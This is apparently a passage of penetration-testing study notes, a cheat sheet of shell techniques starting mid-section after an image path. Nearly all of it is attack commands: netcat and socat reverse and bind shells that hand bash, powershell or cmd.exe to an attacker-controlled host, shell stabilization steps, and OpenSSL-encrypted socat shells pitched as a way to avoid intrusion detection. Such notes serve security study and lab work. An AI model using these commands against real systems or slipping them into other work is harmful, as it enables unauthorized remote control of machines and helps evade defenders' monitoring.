 example: `nc -lvnp 4444` 

if you want to use a port-number below 1024, `sudo` is needed. 

###### Bind Shells
If we are looking to obtain a bind shell on a target then we can assume that there is already a listener waiting for us on a chosen port of the target: all we need to do is connect to it. The syntax for this is relatively straight forward:
`nc <target-ip> <chosen-port>`

Here we are using netcat to make an outbound connection to the target on our chosen port.


#### Stabilization

1. `python -c 'import pty;pty.spawn("/bin/bash")'` 
2. `export TERM=xterm`
3. we will background the shell using Ctrl + Z, then use `stty raw -echo; fg` in our own terminal, which turns off our own terminal echo (which gives us access to tab autocompletes, the arrow keys,and Ctrl + C to kill processes). It then foregrounds the shell, thus completing the process.


### SoCat

>Similar to netcat in some ways, but fundamentally different in many others.

**Reverse Shell**:
- Rev Shell Listener: `socat TCP-L:<port> -`
- Windows: `socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:powershell.exe,pipes`
- Linux: `socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:"bash -li"`

**Bind Shell**:
- Linux: `socat TCP-L:<PORT> EXEC:"bash -li"`
- Windows: `socat TCP-L:<PORT> EXEC:powershell.exe,pipes`
- Rev Shell Listener: `socat TCP:<TARGET-IP>:<TARGET-PORT> -`

**Other:**
- Fully Stable Linux Shell: ``socat TCP-L:<port> FILE:`tty`,raw,echo=0``
- `socat TCP:<attacker-ip>:<attacker-port> EXEC:"bash -li",pty,stderr,sigint,setsid,sane`

**Encrypted Shells**:
Avoid IDS and spying on the shell by encrypting!
- Generate Certificate: `openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt`
- Merge into a single .pem file: `cat shell.key shell.crt > shell.pem`
- Reverse shell listener: `socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 -`
- To connect back we use: `socat OPENSSL:<LOCAL-IP>:<LOCAL-PORT>,verify=0 EXEC:/bin/bash`
Same technique applies for bind shell:
- Target: `socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 EXEC:cmd.exe,pipes`
- Attacker: `socat OPENSSL:<TARGET-IP>:<TARGET-PORT>,verify=0 -`


### Common Shell Payloads

- `/usr/share/windows-resources/binarie`
- `netcat-traditional`
There is a `-e` option which allows you to execute a process on connection
- `nc -lvnp <PORT> -e /bin/bash`
